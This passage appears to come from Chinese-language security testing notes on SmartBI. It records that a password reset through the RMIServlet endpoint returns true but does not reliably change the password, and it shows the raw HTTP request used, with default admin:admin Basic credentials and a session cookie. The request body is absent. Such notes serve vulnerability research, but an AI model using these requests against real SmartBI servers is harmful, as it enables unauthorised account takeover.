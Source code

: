  ![](smartBi总结.assets/image-20210112140616396.png)

理论上重置成功，返回为 true，但是实际测试过程中修改后的密码既不是改之前的密码，也不是修改后的密码，过一段时间自动重置为原来的密码。

![](smartBi总结.assets/image-20210112142701281.png)

数据包:

```
POST /vision/RMIServlet HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://127.0.0.1/vision/index.jsp
If-Modified-Since: 0
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Content-Length: 148
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Cookie: JSESSIONID=848B4743452D02C5A53FECCA58C47299

```